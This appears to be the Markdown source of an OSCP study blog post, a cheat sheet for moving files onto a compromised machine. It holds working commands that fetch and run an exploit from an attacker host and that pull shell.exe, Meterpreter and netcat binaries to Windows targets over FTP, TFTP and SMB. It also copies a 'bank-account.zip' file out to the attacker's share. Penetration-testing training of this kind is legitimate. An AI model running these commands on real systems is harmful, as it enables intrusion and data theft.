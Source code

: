 ```yaml
---
title:  "OSCP: Transfer files from Kali to the target machine"
date:   2018-03-26 03:22:33 +0800
categories: oscp
toc: true
toc_label: "Table of Contents"
toc_icon: "gear"
layout: single
classes:
  - landing
author:
  name             : "Awakened"
  avatar           : "/assets/avatar.jpg"
  bio              : "An information security enthusiast who is particularly interested in hacking and securing mobile applications"
  location         : "Singapore"
  email            : awakened.1712@gmail.com
  facebook         : h0ngnh4t.ph4m
  stackoverflow    : 950983/krypton
---
```


Tranfer files to the target machine is particularly useful when we have already had a reverse shell on Windows. Windows does not have convenient commands to download files such as wget in Linux.

## If PHP RFI is available
Use PHP base64_decode
```php
<?php
$file = '/tmp/findsock';
$fp = fopen($file, 'wb');
fwrite($fp, base64_decode($encoded));
fclose($fp);
system("chmod 0777 " . $file);
echo system("ls -la /tmp");
?>
```

## To Linux machine
Use wget
```
cd /tmp && wget -O exploit.php 10.11.0.105/exploit.php && php -f exploit.php
```

## To Windows machine
### HTTP Server
```
python -m SimpleHTTPServer 80
```
### FTP Server
To start Python FTP server:
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
To put/get files:
```
echo open 10.11.0.105>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get shell.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```
### TFTP Server
To start Kali TFTP server:
```
service atftpd start
```
To get files (put does not work):
```
tftp -i 10.11.1.5 GET met8888.exe
tftp -i 10.11.0.105 PUT C:\bank-account.zip // Not working
```
If tftp is not available:
```
pkgmgr /iu:"TFTP"  
```
### SMB Server
To start SMB server:
```
python /opt/impacket/examples/smbserver.py ROPNOP /root/
```
To put/get files:
```
copy \\10.11.0.105\ROPNOP\nc.exe .
copy C:\bank-account.zip \\10.11.0.105\ROPNOP\
```
**References**
[https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
[http://ostrokonskiy.tk/2017/01/23/windows-privilege-escalation/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)

